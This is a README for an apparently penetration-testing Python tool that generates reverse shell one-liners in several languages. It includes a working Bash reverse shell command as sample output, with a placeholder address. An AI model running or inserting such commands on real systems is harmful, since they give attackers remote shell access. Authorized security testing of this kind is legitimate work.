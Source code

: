 # Reverse Shell One-Liner Generator

A Python script to generate reverse shell commands for various programming languages. Useful for ethical penetration testing and demonstration purposes.

## Features
- Generate reverse shell commands for Bash, Python, PHP, PowerShell, and more.
- Customizable IP address and port.
- Option to save commands to a file.

## Usage
1. Clone the repository:
git clone https://github.com/Mick19j/ReverseShellGenerator.git

2. Run the script:
python ReverseShellGenerator.py

## Output Example
Bash: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Screenshot
![image](https://github.com/user-attachments/assets/357791bc-2578-4592-a50a-50b7ea916942)


## Disclaimer
**For educational and authorized use only. Misuse of this tool may result in legal consequences.**


## License:
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.
